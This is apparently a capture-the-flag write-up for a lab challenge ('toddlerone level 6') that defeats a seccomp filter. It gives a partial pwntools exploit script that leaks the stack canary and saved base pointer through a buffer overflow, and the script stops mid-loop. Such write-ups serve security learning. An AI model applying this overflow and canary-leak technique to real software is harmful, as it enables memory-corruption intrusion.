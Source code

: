 ```python

```

## Challenge 6

Now the seccomp filter loads its syscall arguments from the stack. Hence, we can overwrite them to our wish. \
However, it seems we can overwrite only 2 syscalls, and we have to set one of them to `write` in order for the puts call in the end of challenge to work. A possible approach is to use mmap to map the file into memory, and use write to leak its value to stdout. However, this won’t work - as mmap requires an open fd..

Another approach is using chmod on the flag, and give it some user permissions.

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level6.0'
elf = ELF(BINARY)
GDB_SCRIPT= '''
b challenge
c

c
c
'''

p = process(BINARY)
# p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
PAD_LENGTH = 72

header = b'REPEAT'
padding = b'A' * (PAD_LENGTH - len(header))

# Leak canary
buf_1 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 
p.sendline(str(len(buf_1)))
p.send(buf_1)

while True:
    data = p.recvline()
    if buf_1 in data:
        start_index = data.find(buf_1) + len(buf_1) - 1  # -1 As we also take the fake "B" LSB
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

canary_bytes = struct.pack('<Q', canary)

# Leak rbp
canary_to_rbp_delta = 0x18
buf_2 = header + padding + b'B' * canary_to_rbp_delta
p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2)
        print(f'Data is:{data} index:{start_index}')
```
